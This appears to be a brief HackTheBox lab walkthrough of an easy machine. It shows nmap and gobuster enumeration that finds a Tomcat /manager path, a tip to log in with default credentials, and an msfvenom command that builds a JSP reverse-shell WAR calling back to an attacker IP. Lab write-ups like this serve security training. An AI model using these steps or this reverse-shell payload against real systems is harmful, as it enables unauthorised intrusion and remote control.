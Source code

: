 #HackTheBox #window #easy 
# enum
## _nmap_
└─# nmap 10.129.136.9 -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-11 20:10 UTC
Nmap scan report for 10.129.136.9 (10.129.136.9)
Host is up (0.20s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

## _gobuster_
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/plain]               (Status: 400) [Size: 0]
/quote]               (Status: 400) [Size: 0]

# exploit
use default creds for [/manager              (Status: 302) [Size: 0] [--> /manager/]]

### create payload with msfvenom
└─# 
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.24 lport=1234 -f war -o zelo.war
```
